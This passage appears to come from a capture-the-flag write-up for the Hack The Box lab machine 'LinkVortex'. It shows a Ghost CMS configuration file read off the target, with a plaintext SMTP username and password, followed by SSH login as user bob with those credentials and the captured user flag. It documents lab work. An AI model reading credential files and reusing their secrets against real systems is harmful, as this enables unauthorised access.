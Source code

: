 ```bash
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
file> 
```
#### 🔹 3.3 Extraction of Mail Credentials
- Accessed the typical Ghost CMS configuration file: `/var/lib/ghost/config.production.json`
- Credentials found:
```json
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
```
---
## 4. SSH Access as User `bob`
- SSH login successful:
```bash
ssh bob@10.10.11.47
bob@linkvortex:~$ cat user.txt 
	f462e8a653bfc310177546d620acf30
```
- Obtained user flag ✅
- System is the host machine, not containerized
---